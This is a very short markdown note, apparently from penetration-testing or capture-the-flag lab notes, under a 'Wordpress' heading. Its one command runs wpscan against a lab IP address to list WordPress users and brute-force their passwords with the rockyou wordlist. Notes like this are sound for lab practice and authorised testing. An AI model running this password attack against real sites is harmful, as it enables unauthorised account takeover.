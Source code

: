 # Wordpress


## wpscan
wpscan --url http://10.10.124.236/ -e u -P /usr/share/wordlists/rockyou.txt
